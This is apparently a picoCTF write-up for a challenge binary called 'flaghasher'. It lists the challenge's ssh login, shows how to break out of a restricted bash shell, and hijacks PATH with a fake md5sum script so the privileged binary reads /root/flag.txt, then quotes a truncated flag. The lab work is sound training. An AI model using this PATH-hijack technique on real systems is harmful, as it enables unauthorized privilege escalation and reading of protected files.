 # Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. 
If only it could just give you the actual content!
Connect using ssh ctf-player@rescued-float.picoctf.net -p 49568 with the password, f3b61b38 and run the binary named "flaghasher".

# Solution

This challenge is very similar to `hash-only-1` with the difference that `flaghasher` is not in the home directory so you can use the find command to find the location: `find / -type f -iname "flaghasher"`

That will show you the location to be: `/usr/local/bin/flaghasher`

If you try to do `cd /usr/local/bin/` see `-rbash: /dev/null: restricted: cannot redirect output` so you can just run `bash` and rerun the command to get to the directory.

Then from here, it's the same thing as the last challenge: `echo "/bin/cat /root/flag.txt" > md5sum`, then `chmod +x md5sum`, then `export PATH=.:$PATH`. After that, you can run `./flaghasher` to get the flag. You can use the `exit` command to leave the terminal.

Flag: `picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_fc06...}`